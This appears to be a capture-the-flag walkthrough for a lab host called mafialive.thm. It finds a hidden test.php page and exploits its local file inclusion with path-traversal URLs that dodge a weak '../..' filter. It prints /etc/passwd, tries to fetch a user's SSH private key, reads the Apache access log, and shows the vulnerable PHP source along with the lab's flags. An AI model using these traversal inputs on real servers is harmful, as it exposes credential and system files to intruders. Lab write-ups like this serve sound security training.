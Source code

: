 http://10.10.93.86/

![[web80.png]]

alternate DNS found

```
mafialive.thm
```

adding to /etc/hosts

```
10.10.93.86     mafialive.thm
```


http://mafialive.thm

![[dns80.png]]

```
thm{f0und_th3_r1ght_h0st_n4m3}
```


http://mafialive.thm/robots.txt


```
User-agent: *  
Disallow: /test.php
```

http://mafialive.thm/test.php

![[test.php.png]]

![[clickbutton.png]]

provides a new link in browser bar

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
```


trying to view http://mafialive.thm/test.php?view=/etc/passwd

```
Sorry, Thats not allowed
```

this is the code of test.php web page

```
<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="[/test.php?view=/var/www/html/development_testing/mrrobot.php](view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php)"><button id="secret">Here is a button</button></a><br>
        Control is an illusion    </div>
</body>
```

```
https://highon.coffee/blog/lfi-cheat-sheet/
```

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
```


we see an archangel user

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../home/archangel/.ssh/id_rsa
```

did not work

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log
```

view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log


http://mafialive.thm/test.php

```
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>

```